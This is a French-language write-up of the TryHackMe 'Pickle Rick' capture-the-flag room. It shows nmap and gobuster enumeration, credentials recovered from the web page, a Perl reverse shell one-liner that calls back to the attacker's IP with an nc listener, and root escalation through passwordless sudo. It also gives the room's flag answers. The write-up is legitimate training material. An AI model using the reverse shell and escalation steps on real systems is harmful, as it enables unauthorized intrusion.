





# Pickel Rickle #

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.219.41 picklerick.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A picklerick.thm
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-22 08:54 CEST
Nmap scan report for picklerick.thm (10.10.219.41)
Host is up (0.033s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f1:45:81:8b:01:89:af:0b:f5:b5:b1:7e:eb:a9:77:35 (RSA)
|   256 fd:6d:4e:3f:c7:88:f5:9d:ff:35:ae:82:ae:33:cc:19 (ECDSA)
|_  256 a4:e7:6a:e4:e1:38:2a:bf:2b:d2:55:7a:44:90:64:1e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/22%OT=22%CT=1%CU=41737%PV=Y%DS=2%DC=T%G=Y%TM=60F9165
OS:0%P=x86_64-pc-linux-gnu)SEQ(SP=F4%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)SEQ(
OS:SP=F4%GCD=1%ISR=10D%TI=Z%CI=I%TS=8)OPS(O1=M506ST11NW7%O2=M506ST11NW7%O3=
OS:M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)WIN(W1=68DF%W2=68
OS:DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW7
OS:%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=
OS:Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0
OS:%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIP
OS:CK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   32.64 ms 10.9.0.1
2   32.40 ms picklerick.thm (10.10.219.41)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.21 seconds
```

On voit avec le résultat nmap qui y a deux services :   
Le servie ssh sur le port 22  
Le servie http sur le port 80   



Sur la page principale one voit pas grand chose.   



Par contre dans le code source de la page dans les commentaires on trouve un non d'utilisateur.  
non d'utilisateur : R1ckRul3s   

```bash
im@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://picklerick.thm -w /usr/share/dirb/wordlists/common.txt -x html,php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://picklerick.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
2021/07/22 09:22:29 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 293]
/.hta.html            (Status: 403) [Size: 298]
/.hta.php             (Status: 403) [Size: 297]
/.htaccess            (Status: 403) [Size: 298]
/.htpasswd            (Status: 403) [Size: 298]
/.htaccess.html       (Status: 403) [Size: 303]
/.htpasswd.php        (Status: 403) [Size: 302]
/.htaccess.php        (Status: 403) [Size: 302]
/.htpasswd.html       (Status: 403) [Size: 303]
/assets               (Status: 301) [Size: 317] [--> http://picklerick.thm/assets/]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]                     
/index.html           (Status: 200) [Size: 1062]                                   
/index.html           (Status: 200) [Size: 1062]                                   
/login.php            (Status: 200) [Size: 882]                                    
/portal.php           (Status: 302) [Size: 0] [--> /login.php]                     
/robots.txt           (Status: 200) [Size: 17]                                     
/server-status        (Status: 403) [Size: 302]                                    
                                                                                   
===============================================================
2021/07/22 09:23:18 Finished
===============================================================
```  

On remarque plusieurs liens disponibles interréssants :   
\/robots.txt  
\/assets   
\/login.php

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://picklerick.thm/robots.txt
Wubbalubbadubdub
```

Cette pourra nous servir plus tard.



Ici je n'ai rien trouvé.   



Nous avons une page essayons de mettre :  
Username : R1ckRul3s   
Password : Wubbalubbadubdub 


On utiliser des commandes pour voire les fichiers dans le serveur, mais il y a certaine commandes qui sont filtrés.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

Nous allons essayer de trouver un reverse shell qui fonctionne.   
Écoutons sur le port 1234 pour établir une connexion avec le reverse shell.   

```bash
perl -e 'use Socket;$i="10.9.228.66";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Après plusieurs tentatives  je trouve reverse shell qui fonctionne.   

**What is the first ingredient Rick needs?**

```bash
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@ip-10-10-219-41:/var/www/html$ 

www-data@ip-10-10-219-41:/var/www/html$ ls    	
ls
Sup3rS3cretPickl3Ingred.txt  clue.txt	 index.html  portal.php
assets			     denied.php  login.php   robots.txt

www-data@ip-10-10-219-41:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt
cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```

On trouve le premier ingrédient.   
Réponse : mr. meeseek hair  

**Whats the second ingredient Rick needs?**

```bash
www-data@ip-10-10-219-41:/var/www/html$ cat clue.txt
cat clue.txt
Look around the file system for the other ingredient.

www-data@ip-10-10-219-41:/var/www/html$ cd /home/
www-data@ip-10-10-219-41:/home$ ls
ls
rick  ubuntu
www-data@ip-10-10-219-41:/home$ cd rick
cd rick
www-data@ip-10-10-219-41:/home/rick$ ls
ls
second ingredients
www-data@ip-10-10-219-41:/home/rick$ cat "second ingredients"
cat "second ingredients"
1 jerry tear
```

Dans le fichier clue.txt on dit de chercher ailleurs pour le trouver le deuxième ingredient.  
On trouve le fichier et on regarde à l'intérieur.  
La réponse est : 1 jerry tear  

**Whats the final ingredient Rick needs?**

```bash
www-data@ip-10-10-219-41:/home$ sudo -l
sudo -l
Matching Defaults entries for www-data on
    ip-10-10-219-41.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-219-41.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

D'après la configuration on peut exécuter sudo sans mot de passe.  

```bash
www-data@ip-10-10-219-41:/home$ sudo su
sudo su

root@ip-10-10-219-41:/home# cd /root/
cd /root/
root@ip-10-10-219-41:~# ls
ls
3rd.txt  snap

root@ip-10-10-219-41:~# cat 3rd.txt
cat 3rd.txt
3rd ingredients: fleeb juice
```

On a notre troisième ingredient.   
Réponse : fleeb juice  
